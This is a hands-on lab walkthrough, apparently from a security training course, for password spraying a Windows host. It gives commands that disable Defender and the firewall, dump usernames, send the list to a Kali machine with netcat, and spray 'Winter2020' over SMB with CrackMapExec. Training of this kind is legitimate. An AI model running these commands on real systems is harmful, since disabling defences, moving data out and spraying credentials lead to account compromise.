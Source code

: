 
# Password Spray

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Let's get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

Now, let's open a command Prompt:

![](../AppLocker/attachments/cmd-command-prompt.png)

C:\Windows\system32> `cd \tools`

C:\Tools> `200-user-gen.bat`

It should look like this:

![](attachments/Clipboard_2020-06-16-10-26-22.png)

Now, we will need to start PowerShell to run DumpUsers.ps1. For simplicity, we will use the script that gets a list of usernames from the windows host and saves it to the C:\temp\UserList.txt file.


C:\Tools> `powershell`

PS C:\Tools> `Set-ExecutionPolicy Unrestricted`

PS C:\Tools> `.\DumpUsers.ps1`

It should look like this:

![](attachments/Clipboard_2020-06-16-10-37-09.png)

Next we are going to password spray against SMB (port 445) which we know is open by the results of previous NMAP scan.
For now lets transfer a list of usernames to our kali machine by netcat. To do it we need the ip of our machine and the following command.

`nc -lv -p 2222 > users`

![](attachments/kali-netcat.png)

Now switch to command prompt on windows machine. 

![](../AppLocker/attachments/cmd-command-prompt.png)

Disable firewall.
C:\Tools> `netsh advfirewall set allprofiles state off`

![](attachments/disable-firewall.png)

And transfer the file to kali by running the next command 

C:\Tools> `nc <IP> 2222 < ..\temp\UserList.txt` (Cancel out netcat (Ctrl-C) after 3 seconds.).

![](attachments/win-netcat.png)

Check that users file exists in home directory of clabs (/home/clabs):

![](attachments/kali-home.png)

We will use the tool CrackMapExec for password spray attack over smb. The tool supports other protocols like ssh, winrm, ldap etc. 

The command looks like this - `cme smb <IP> -u users -p Winter2020 --shares`.

![](attachments/cme-result.png)

We can see that the user Cristopher was succesfully authenticated to our target machine.

Now we need to clean up and make sure the system is ready for the rest of the labs:

PS C:\Tools> `exit`

C:\Tools> `user-remove.bat`

![](attachments/Clipboard_2020-06-16-10-39-16.png)




